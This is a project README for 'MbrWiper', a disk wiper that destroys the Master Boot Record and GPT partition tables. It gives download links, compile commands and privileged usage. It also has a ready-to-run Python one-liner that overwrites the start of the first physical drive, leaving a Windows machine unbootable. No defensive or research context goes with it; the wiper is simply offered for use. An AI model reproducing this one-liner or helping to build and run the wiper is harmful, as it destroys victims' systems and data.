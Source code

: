 ![MbrWiper Logo](https://mauricelambert.github.io/info/c/security/MbrWiper_small.png "MbrWiper logo")

# MbrWiper

## Description

This file implements a little MBR and GPT Wiper.

## Requirements

 - No requirements

## Download

[Download binaries (Linux and Windows Libraries and examples) from latest github release](https://github.com/mauricelambert/MbrWiper/releases/latest).

## Compile

### Download sources

```bash
git clone https://github.com/mauricelambert/MbrWiper.git
cd MbrWiper
```

#### Windows

```bash
gcc -Wall -Wextra -Werror -O5 MbrWiper.c -o MbrWiper.exe
strip MbrWiper
```

#### Linux

```bash
gcc -Wall -Wextra -Werror -O5 MbrWiper.c -o MbrWiper.exe
strip MbrWiper.exe
```

## Usages

**Privileges required**

### Linux

```bash
./MbrWiper
```

### Windows

```bash
MbrWiper.exe
```

## MBR and GPT Wiper in python oneliner

```python
open("\\\\.\\PHYSICALDRIVE0", "rb+").write(b"a" * 1024)
```

## Links

 - [Github](https://github.com/mauricelambert/MbrWiper/)
 - [Github - compiled executable](https://github.com/mauricelambert/MbrWiper/releases/latest/)
 - [SourceForce - compiled executable](https://sourceforge.net/projects/MbrWiper/files/)

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
